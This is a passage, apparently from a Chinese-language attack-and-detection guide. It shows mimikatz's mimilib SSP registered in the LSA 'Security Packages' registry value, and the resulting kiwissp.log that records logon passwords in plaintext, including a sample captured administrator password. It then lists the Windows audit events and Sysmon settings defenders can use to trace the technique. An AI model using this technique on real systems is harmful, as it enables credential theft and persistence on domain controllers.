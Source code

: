 查看注册表 hklm\system\currentcontrolset\control\lsa\Security Packages项的值。

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u\0mimilib
```

系统重启后，若dll被成功加载，用户在登录时输入的账号和密码明文就会被记录在C:\Windows\system32\kiwissp.log中。

```dos
type C:\Windows\system32\kiwissp.log
```

```test
C:\Users\Administrator>type C:\Windows\system32\kiwissp.log
[00000000:000003e7] [00000002] WORKGROUP\DC$ (DC$)
[00000000:00049cd0] [00000002] DC\Administrator (Administrator) admin.098
[00000000:000003e5] [00000005] \ (LOCAL SERVICE)
```

## 测试留痕

建议在windows server 2008（含2008）以下版本安装部署sysmon，记录进程名称、进程命令行参数，方便溯源分析；

建议在windows server 2008以上版本操作系统中开启审核进程创建策略，记录进程名称、进程命令行参数，方便溯源分析。

```yml
#针对方法二留痕

EVentID: 4656 #已请求到对象的句柄。
对象:
对象服务器: Security
对象类型: Key
对象名: \REGISTRY\MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMAN
句柄 ID: 0x508

进程信息:
进程 ID: 0x748
进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

访问请求信息:
事务 ID: {00000000-0000-0000-0000-000000000000}
访问: READ_CONTROL
      查询项值
      枚举子项
      对项的改动进行通知

EVentID: 4658 #已关闭到对象的句柄。
对象:
对象服务器: Security
句柄 ID: 0x508

进程信息:
进程 ID: 0xbd8
进程名: C:\Windows\System32\Oobe.exe

EVentID: 4688 #已创建新进程。在高版本系统中可记录命令行参数
进程信息:
新进程 ID: 0x5c8
新进程名: C:\Windows\System32\reg.exe
令牌提升类型: TokenElevationTypeDefault (1)

EVentID: 4656 #已请求到对象的句柄。
```